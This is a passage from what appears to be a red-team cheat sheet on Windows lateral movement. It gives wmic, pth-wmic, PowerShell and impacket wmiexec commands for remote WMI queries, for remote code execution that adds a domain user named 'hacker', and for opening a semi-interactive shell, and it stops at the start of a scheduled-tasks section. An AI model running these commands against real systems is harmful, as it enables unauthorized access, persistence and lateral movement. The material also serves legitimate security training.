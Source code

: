 ### Windows Management Instrumentation \(WMI\)

WMI is Microsoft's consolidation of system management under a single umbrella. It is leveraged heavily under the hood for local operation, but can also be used for remote execution. Several built-in tools exist for either WQL query execution, or full code execution. Impacket includes wmiexec which also provides a semi-interactive shell. 

Remote WMI queries used RPC/DCOM as the communication bus.

**Port:** 135/TCP \(RPC\), plus one high-random TCP \(DCOM\)

**Tools:** winrm, winrs, PowerShell Remoting

**Example list services:**

```text
wmic.exe /USER:"testlab\josh" /PASSWORD:"Password1" /NODE:192.168.112.200 service get "startname,pathname"
```

  
**Example execute code \(add user\):**

```text
wmic /USER:"testlab\josh" /PASSWORD:"Password1" /NODE:192.168.112.200 process call create "net user hacker Str0nGP_$sw0rd /add /domain"
```

  
**Example list services \(via PS cmdlet\):**

```text
PS> Get-WMIObject -ComputerName 192.168.112.200 -query "Select * from Win32_Service"
```

  
**Example list processes \(via linux wmic util\):**

```text
pth-wmic -U testlab/josh%Password1 //192.168.112.200 "select csname,name,processid,sessionid from win32_process"
```

  
**Example semi-interactive shell \(impacket\):**

```text
wmiexec.py 'josh':'Password1'@192.168.112.200
```

### Scheduled Tasks 

Tasks, that are, scheduled. In addition to running commands locally, the built-in schtasks utility leverages RPC/DCOM to schedule tasks on remote machines. On legacy Windows machines At.exe performed this functionality, but was deprecated for SchTasks in modern platforms. Application firewalls that block Schtasks may still allow At, a good reason to attempt both if necessary. 

**Port:** 135/TCP \(RPC\), plus one high-random TCP \(DCOM\)

**Tools:** schtasks, at

**Examples:**
